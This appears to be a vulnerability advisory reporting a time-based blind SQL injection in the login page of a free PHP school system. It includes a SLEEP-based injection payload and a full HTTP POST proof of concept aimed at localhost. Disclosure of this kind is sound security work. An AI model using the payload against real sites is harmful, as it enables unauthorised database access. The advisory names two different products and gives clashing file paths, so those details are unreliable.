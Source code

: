 # Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code  (It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Jing Xiong

2. vendors: [Online College Library System using PHP/MySQLi Source Code](https://www.campcodes.com/downloads/online-college-library-system-using-php-mysqli-source-code/);

3. The program is built using the PHP/8.1.10 version;

4. Vulnerability location:  /libsystem/login.php

# Vulnerability Verification

[+] Payload:

```java
student=RIDM' AND (SELECT 8259 FROM (SELECT(SLEEP(5)))rJcs) AND 'okDV'='okDV&login=tiZF
```

POC：

```js
POST /login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 134
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=4dq7vcodkmkfafhok7fkld9s4r
Host: 127.0.0.1:8081
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/index.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

student=student%3DRIDM%27+AND+%28SELECT+8259+FROM+%28SELECT%28SLEEP%285%29%29%29rJcs%29+AND+%27okDV%27%3D%27okDV%26login%3DtiZF&login=
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：
![image](./sql1.png)


